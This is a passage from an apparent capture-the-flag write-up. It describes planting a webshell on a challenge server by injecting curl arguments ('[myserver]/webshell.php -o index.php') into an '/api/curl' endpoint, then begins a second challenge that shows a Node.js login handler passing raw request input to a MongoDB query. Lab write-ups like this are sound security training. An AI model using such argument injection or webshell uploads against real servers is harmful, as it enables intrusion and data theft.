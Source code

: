 ```
      <input type="submit" value="Submit" />
    </form>
  </body>
</html>
```

It's far from being the most beautiful or feature-rich webshell out there, but it gets the job done. All we need to do is to host this file on some server and make a POST request to `/api/curl` containing the payload `[myserver]/webshell.php -o index.php`. We can now reload the page and be greeted by our webshell, which we can use to read the flag.

`CHTB{f1le_r3trieval_4s_a_s3rv1ce}`

> I should add that when I first approached the challenge I thought the vulnerability might be somewhere in the router logic. There was a lot of code in the application that seemed like it was hiding bugs somewhere, but it turns out, this was not the case.

### Wild Goose Hunt

This time we get a nodejs application as well as the ip and port for the remote instance. The application itself is simple, it just consists of a single webpage with a login form, and an endpoint to make login requests to:

![Wild Goose Hunt homepage](images/wildgoosehunt_index.png)

Telling from the dokcer configuration in the local instance, the password for the `admin` user seems to be the flag. All of this data is stored on a mongo database. Let's look at the controller for the login endpoint:

```
router.post('/api/login', (req, res) => {
  let { username, password } = req.body;
  
  if (username && password) {
    const user = { 
      username,
      password
    }
    return User.find(user)
    .then((user) => {
      if (user.length == 1) {
        return res.json({logged: 1, message: `Login Successful, welcome back ${user[0].username}.` });
      } else {
```